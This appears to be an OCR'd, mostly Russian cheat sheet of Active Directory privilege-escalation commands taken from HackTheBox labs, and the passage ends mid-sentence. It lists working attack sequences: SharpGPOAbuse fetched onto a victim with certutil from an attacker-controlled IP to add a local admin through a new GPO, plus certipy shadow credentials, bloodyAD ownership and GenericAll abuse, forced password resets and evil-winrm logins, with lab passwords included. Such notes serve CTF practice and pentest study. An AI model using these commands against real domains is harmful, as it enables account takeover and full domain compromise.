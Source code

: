      (где mod.ldap
     
     dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
     changetype: modify
     replace: userAccountControl
     userAccountControl: 512
     )
# WriteGPLink

    # скачаем SharpGPOAbuse
    $ wget https://github.com/byronkg/SharpGPOAbuse/releases/download/1.0/SharpGPOAbuse.exe
    # загрузим его на удаленную машину
    psh> certutil -urlcache -f http://10.10.16.31:4243/SharpGPOAbuse.exe SharpGPOAbuse.exe
    # создадим новую групповую политику pwn
    psh> New-GPO -Name pwn | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB"
    # используем созданную групповую политику pwn для добавления себя в локальные администраторы
    psh> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount m.schoolbus --GPOName pwn
    # явно применяем групповые политики
    psh> gpupdate /force

# WriteOwner

     Shadow Credential
     certipy-ad shadow auto -username P.AGILA@fluffy.htb -password 'prometheusx-303' -account WINRM_SVC

        Добавим sam​ в качестве владельца john (который write owner для john)
        bloodyAD -u sam -p 'NewP@ssw0rd123!' -d tombwatcher.htb --host tombwatcher.htb set owner john sam
        Теперь добавим права GenericAll​ на john
        bloodyAD -u sam -p 'NewP@ssw0rd123!' -d tombwatcher.htb --host tombwatcher.htb add genericAll john sam
        И можем поменять ему пароль
        bloodyAD -u sam -p 'NewP@ssw0rd123!' -d tombwatcher.htb --host tombwatcher.htb set password john 'NewP@ssw0rd123!'
        После этого подключимся с помощью WinRM
        evil-winrm -i tombwatcher.htb -u john -p 'NewP@ssw0rd123!'

 Мы можем попытаться сделать райана владельцем ca_svc с помощью этой команды


    bloodyAD --host 10.10.11.51 -d escapetwo.htb -u ryan -p WqSZAF6CysDQbGb3 set owner CA_SVC ryan

После выполнения этой команды мы видим, что она разрешена. Чтобы получить полный контроль над пользователем ca_svc, мы можем использовать impacket-dacledit следующим образом
